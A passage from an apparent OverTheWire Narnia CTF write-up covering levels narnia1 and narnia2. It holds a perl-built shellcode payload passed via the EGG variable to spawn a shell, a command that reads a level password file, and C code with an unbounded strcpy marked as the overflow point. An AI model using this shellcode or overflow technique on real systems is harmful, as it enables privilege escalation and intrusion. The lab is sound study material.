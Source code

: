 but its segment into multiple string 

```
 EGG=`perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70".
 "\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61".
 "\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52".
 "\x51\x53\x89\xe1\xcd\x80"'` ./narnia1
```

`.` refer concatenate in  `perl` , this concatenate all segments into single string

<img src="img/Pasted image 20240717113927.png" alt="Example Image" width="1080"/>

```
cat /etc/narnia_pass/narnia2
```

----

**Narnia2**

```
narnia2@gibson:~$ cd /narnia/
narnia2@gibson:~$ cat narnia2.c
```

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);            <<<<<       
    printf("%s", buf);

    return 0;
}
```

This looks pretty straight forward , `strcpy()` doesn't have any limit in input size , that's the hook point.
